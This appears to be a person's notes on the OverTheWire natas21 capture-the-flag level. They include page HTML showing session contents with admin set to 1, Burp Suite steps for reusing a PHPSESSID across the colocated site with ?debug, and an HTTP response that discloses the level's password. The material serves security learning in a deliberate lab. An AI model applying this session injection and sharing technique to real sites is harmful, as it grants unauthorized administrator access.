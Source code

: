 ```
    <body>
    <h1>natas21 - CSS style experimenter</h1>
    <div id="content">
    <p>
    <b>Note: this website is colocated with <a href="http://natas21.natas.labs.overthewire.org">http://natas21.natas.labs.overthewire.org</a></b>
    </p>
    [DEBUG] Session contents:<br>Array
    (
        [debug] => 
        [align] => center
        [fontsize] => 100%
        [bgcolor] => yellow
        [admin] => 1 👀
        [submit] => Update
    )

    <p>Example:</p>
    <div style='background-color: yellow; text-align: center; font-size: 100%;'>Hello world!</div>
    <p>Change example values here:</p>
    <form action="index.php" method="POST">align: <input name='align' value='center' /><br>fontsize: <input name='fontsize' value='100%' /><br>bgcolor: <input name='bgcolor' value='yellow' /><br><input type="submit" name="submit" value="Update" /></form>
    <div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
    </div>
    </body>
    </html>
# IMPORTANT: Make same changes (on Response the ?debug & admin=1) back on Proxy and FORWARD ⭐⭐⭐⭐⭐ (Look Burp Browser)
# Make a GET request to http://natas21.natas.labs.overthewire.org/index.php?debug using same PHPSESSID
    Make new request in browser and send to Repeater using Cookie: PHPSESSID=khutiibnrqqar0p50fm87bb72h
# Burp Browser: http://natas21.natas.labs.overthewire.org
# Send to Repeater or FORWARD (Look Burp Browser w/ changed cookie)
# Edit Cookie: PHPSESSID=<random> to other khutiibnrqqar0p50fm87bb72h

HTTP/1.1 200 OK
Date: Wed, 06 Aug 2025 21:08:34 GMT
Server: Apache/2.4.58 (Ubuntu)
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Vary: Accept-Encoding
Content-Length: 1203
Keep-Alive: timeout=5, max=100
Connection: Keep-Alive
Content-Type: text/html; charset=UTF-8

<html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas21", "pass": "BPhv63cKE1lkQl04cE5CuFTzXe15NfiH" };</script></head>
<body>
<h1>natas21</h1>
```